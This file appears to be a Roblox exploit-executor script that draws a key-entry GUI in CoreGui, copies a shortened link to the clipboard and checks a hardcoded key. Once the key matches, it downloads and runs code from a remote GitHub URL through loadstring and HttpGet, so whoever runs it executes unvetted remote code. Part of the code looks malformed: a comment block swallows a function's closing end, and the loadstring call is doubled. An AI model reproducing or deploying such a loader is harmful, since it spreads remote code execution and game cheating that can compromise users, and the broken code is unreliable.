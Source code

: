 -- Gui to Lua
-- Version: 3.2

-- Instances:

local GetKey = Instance.new("ScreenGui")
local ui_key = Instance.new("Frame")
local UICorner = Instance.new("UICorner")
local TextBox = Instance.new("TextBox")
local UIAspectRatioConstraint = Instance.new("UIAspectRatioConstraint")
local UITextSizeConstraint = Instance.new("UITextSizeConstraint")
local getkey = Instance.new("TextButton")
local UICorner_2 = Instance.new("UICorner")
local UIAspectRatioConstraint_2 = Instance.new("UIAspectRatioConstraint")
local UITextSizeConstraint_2 = Instance.new("UITextSizeConstraint")
local UIGradient = Instance.new("UIGradient")
local Check = Instance.new("TextButton")
local UICorner_3 = Instance.new("UICorner")
local UIAspectRatioConstraint_3 = Instance.new("UIAspectRatioConstraint")
local UITextSizeConstraint_3 = Instance.new("UITextSizeConstraint")
local UIAspectRatioConstraint_4 = Instance.new("UIAspectRatioConstraint")

--Properties:

GetKey.Name = "GetKey"
GetKey.Parent = game.CoreGui
GetKey.ZIndexBehavior = Enum.ZIndexBehavior.Sibling

ui_key.Name = "ui_key"
ui_key.Parent = GetKey
ui_key.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
ui_key.BorderColor3 = Color3.fromRGB(0, 0, 0)
ui_key.BorderSizePixel = 0
ui_key.Position = UDim2.new(0.357889235, 0, 0.312030077, 0)
ui_key.Size = UDim2.new(0.28422153, 0, 0.375939846, 0)

UICorner.Parent = ui_key

TextBox.Parent = ui_key
TextBox.BackgroundColor3 = Color3.fromRGB(27, 19, 255)
TextBox.BackgroundTransparency = 0.800
TextBox.BorderColor3 = Color3.fromRGB(0, 0, 0)
TextBox.BorderSizePixel = 0
TextBox.Position = UDim2.new(0.0202205889, 0, 0.0599999987, 0)
TextBox.Size = UDim2.new(0.957720578, 0, 0.166666672, 0)
TextBox.Font = Enum.Font.SourceSans
TextBox.Text = "Key"
TextBox.TextColor3 = Color3.fromRGB(255, 255, 255)
TextBox.TextScaled = true
TextBox.TextSize = 14.000
TextBox.TextWrapped = true

UIAspectRatioConstraint.Parent = TextBox
UIAspectRatioConstraint.AspectRatio = 10.420

UITextSizeConstraint.Parent = TextBox
UITextSizeConstraint.MaxTextSize = 50

getkey.Name = "getkey"
getkey.Parent = ui_key
getkey.BackgroundColor3 = Color3.fromRGB(0, 81, 255)
getkey.BorderColor3 = Color3.fromRGB(0, 0, 0)
getkey.BorderSizePixel = 0
getkey.Position = UDim2.new(0.0202205889, 0, 0.323333323, 0)
getkey.Size = UDim2.new(0.957720578, 0, 0.166666672, 0)
getkey.Font = Enum.Font.Unknown
getkey.Text = "Get Key"
getkey.TextColor3 = Color3.fromRGB(255, 255, 255)
getkey.TextScaled = true
getkey.TextSize = 14.000
getkey.TextWrapped = true

UICorner_2.Parent = getkey

UIAspectRatioConstraint_2.Parent = getkey
UIAspectRatioConstraint_2.AspectRatio = 10.420

UITextSizeConstraint_2.Parent = getkey
UITextSizeConstraint_2.MaxTextSize = 50

UIGradient.Color = ColorSequence.new{ColorSequenceKeypoint.new(0.00, Color3.fromRGB(0, 38, 255)), ColorSequenceKeypoint.new(1.00, Color3.fromRGB(201, 7, 255))}
UIGradient.Rotation = 68
UIGradient.Transparency = NumberSequence.new{NumberSequenceKeypoint.new(0.00, 0.16), NumberSequenceKeypoint.new(0.15, 0.64), NumberSequenceKeypoint.new(1.00, 0.12)}
UIGradient.Parent = ui_key

Check.Name = "Check"
Check.Parent = ui_key
Check.BackgroundColor3 = Color3.fromRGB(0, 81, 255)
Check.BorderColor3 = Color3.fromRGB(0, 0, 0)
Check.BorderSizePixel = 0
Check.Position = UDim2.new(0.0202205889, 0, 0.560000002, 0)
Check.Size = UDim2.new(0.957720578, 0, 0.166666672, 0)
Check.Font = Enum.Font.Unknown
Check.Text = "Check Key"
Check.TextColor3 = Color3.fromRGB(255, 255, 255)
Check.TextScaled = true
Check.TextSize = 14.000
Check.TextWrapped = true

UICorner_3.Parent = Check

UIAspectRatioConstraint_3.Parent = Check
UIAspectRatioConstraint_3.AspectRatio = 10.420

UITextSizeConstraint_3.Parent = Check
UITextSizeConstraint_3.MaxTextSize = 50

UIAspectRatioConstraint_4.Parent = ui_key
UIAspectRatioConstraint_4.AspectRatio = 1.813

-- Scripts:

local function GPKUSWF_fake_script() -- getkey.LocalScript 
	local script = Instance.new('LocalScript', getkey)

	script.Parent.MouseButton1Click:Connect(function()
		setclipboard(tostring("https://shorturl.at/brVY3"))
		--[[
		game.StarterGui:SetCore("SendNotification", {
			Title = "do you want to copy Website";
			Text = "Getkey!";
			Icon = "rbxassetid://145360599";
			Button1 = "Copy";
			Button2 = "No Thank";
			Callback = script.Button_Click
		})
		-]]
	end)
	--[[
	script.Button_Click.OnInvoke = function(buttonText)
		if buttonText == "Copy" then
			setclipboard(tostring("https://shorturl.at/brVY3"))
		elseif buttonText == "No Thank" then
			print("ok")
		else
			return
		end
	end
end
--]]
coroutine.wrap(GPKUSWF_fake_script)()
local function NXQEBG_fake_script() -- Check.LocalScript 
	local script = Instance.new('LocalScript', Check)

	local key = {
		["Key1"] = "Csdj910-3u90us"
	}
	
	script.Parent.MouseButton1Click:Connect(function()
		if script.Parent.Parent.TextBox.Text == key.Key1 then
				script.Parent.Parent.Parent.ui_key.Visible = false
				--[[
			game.StarterGui:SetCore("SendNotification", {
				Title = "success";
				Text = "Thank you";
				Icon = "rbxassetid://12900311398";
			})
			--]]
			wait(2)
			loadstring(loadstring(game:HttpGet("https://raw.githubusercontent.com/Aegona/Execute_V1/main/README.md"))())
		end
	end)
end
coroutine.wrap(NXQEBG_fake_script)()

